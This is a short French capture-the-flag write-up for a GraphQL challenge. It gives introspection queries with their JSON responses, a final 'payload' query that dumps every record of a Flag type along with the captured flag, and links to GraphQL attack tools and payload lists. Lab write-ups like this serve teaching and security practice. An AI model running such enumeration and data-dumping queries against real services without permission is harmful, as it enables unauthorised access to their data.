

# {NOM_DU_CHALL}




```js

```

```js
{ __schema { types { name } }}
```

```json
{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "Query"
        },
        {
          "name": "Node"
        },
        {
          "name": "ID"
        },
        {
          "name": "Int"
        },
        {
          "name": "Cursor"
        },
        {
          "name": "CooksOrderBy"
        },
        {
          "name": "CookCondition"
        },
        {
          "name": "String"
        },
        {
          "name": "CookFilter"
        },
        {
          "name": "IntFilter"
        },
        {
          "name": "Boolean"
        },
        {
          "name": "StringFilter"
        },
        {
          "name": "CooksConnection"
        },
        {
          "name": "Cook"
        },
        {
          "name": "CooksEdge"
        },
        {
          "name": "PageInfo"
        },
        {
          "name": "FlagsOrderBy"
        },
        {
          "name": "FlagCondition"
        },
        {
          "name": "FlagFilter"
        },
        {
          "name": "FlagsConnection"
        },
        {
          "name": "Flag"
        },
        {
          "name": "FlagsEdge"
        },
        {
          "name": "__Schema"
        },
        {
          "name": "__Type"
        },
        {
          "name": "__TypeKind"
        },
        {
          "name": "__Field"
        },
        {
          "name": "__InputValue"
        },
        {
          "name": "__EnumValue"
        },
        {
          "name": "__Directive"
        },
        {
          "name": "__DirectiveLocation"
        }
      ]
    }
  }
}
```

```js
{ __type(name: "Flag") { name fields { name type { name kind } } } }
```

```json
{
  "data": {
    "__type": {
      "name": "Flag",
      "fields": [
        {
          "name": "nodeId",
          "type": {
            "name": null,
            "kind": "NON_NULL"
          }
        },
        {
          "name": "id",
          "type": {
            "name": null,
            "kind": "NON_NULL"
          }
        },
        {
          "name": "flag",
          "type": {
            "name": "String",
            "kind": "SCALAR"
          }
        }
      ]
    }
  }
}
```

```js
{ __schema { queryType { fields { name description } } } }
```

```json
{
  "data": {
    "__schema": {
      "queryType": {
        "fields": [
          {
            "name": "query",
            "description": "Exposes the root query type nested one level down. This is helpful for Relay 1 which can only query top level fields if they are in a particular form."
          },
          {
            "name": "nodeId",
            "description": "The root query type must be a `Node` to work well with Relay 1 mutations. This just resolves to `query`."
          },
          {
            "name": "node",
            "description": "Fetches an object given its globally unique `ID`."
          },
          {
            "name": "allCooks",
            "description": "Reads and enables pagination through a set of `Cook`."
          },
          {
            "name": "allFlags",
            "description": "Reads and enables pagination through a set of `Flag`."
          },
          {
            "name": "cookById",
            "description": null
          },
          {
            "name": "flagById",
            "description": null
          },
          {
            "name": "cook",
            "description": "Reads a single `Cook` using its globally unique `ID`."
          },
          {
            "name": "flag",
            "description": "Reads a single `Flag` using its globally unique `ID`."
          }
        ]
      }
    }
  }
}
```

### Final payload

```js
{ allFlags (filter: { flag: {like: "%%"}}) { nodes { nodeId, id, flag }}}
```

```json
{"data":{"allFlags":{"nodes":[{"nodeId":"WyJmbGFncyIsMV0=","id":1,"flag":"FCSC{1ef3c5c3ac3c56eb178bafea15b07b82c4a0ea8184d76a722337dca108add41a}"}]}}}
```

## Liens utiles

- https://jaimelightfoot.com/blog/hack-in-paris-2019-ctf-meet-your-doctor-graphql-challenge/
- https://github.com/swisskyrepo/GraphQLmap
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md